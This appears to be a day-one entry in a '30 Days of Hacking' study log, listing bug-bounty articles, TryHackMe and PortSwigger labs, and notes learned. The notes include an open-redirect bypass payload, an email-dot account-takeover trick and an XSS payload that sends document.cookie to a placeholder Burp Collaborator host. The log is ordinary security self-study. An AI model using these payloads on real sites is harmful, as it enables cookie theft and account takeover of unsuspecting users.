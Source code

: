 # Day-1 (30-Days-Of-Hacking)

### 1. Read 3 Article:

- https://medium.com/@tushar.tilak.sharma/a-tale-of-open-redirection-to-stored-xss-6ad426ae9d43
- https://medium.com/techiepedia/p5-to-p1-intresting-account-takeover-6e59b879494b
- https://medium.com/@tushar.tilak.sharma/how-i-turned-a-self-xss-into-one-click-account-takeover-through-bad-business-logic-ff003c30e96

#### Learned:
- Got to know Open Direcction Bypass Payload: target. com/<>//google.com
- ATO Methadology: So I Sign up with an email: abc.ishack@gmail.com. Again I tried to sign up with the email: abcis.hack@gmail.com[ Mind the place of [.] ]. And I was able to sign up with the 2 accounts.
- XSS Payload to Steal Cookie : ‘“><img src=x onerror=fetch(‘//(your burp collab id here).burpcollaborator.net/?c=’%2Bdocument.cookie)>

### 2. TryHackMe Labs:

- [X] Solved Task 1, Task 2, Task 3, Task 4, Task 5 Of **METASPLOIT** : https://tryhackme.com/room/rpmetasploit 
- [X] Solved Task 1, Task 2, Task 4, Task 5, Of : **Dirty Pipe** : https://tryhackme.com/room/dirtypipe  (Unable to get root flag Will try Next day)

### 3. PortSwigger Labs:

- [X] **Solved Directory traversal**
 -  Lab: File path traversal, simple case
 -  Lab: File path traversal, traversal sequences blocked with absolute path bypass

### 4. Youtube Video:

- Watched : OrwaGodFather Part 1 Video : https://www.youtube.com/watch?v=06JYV06y-hU
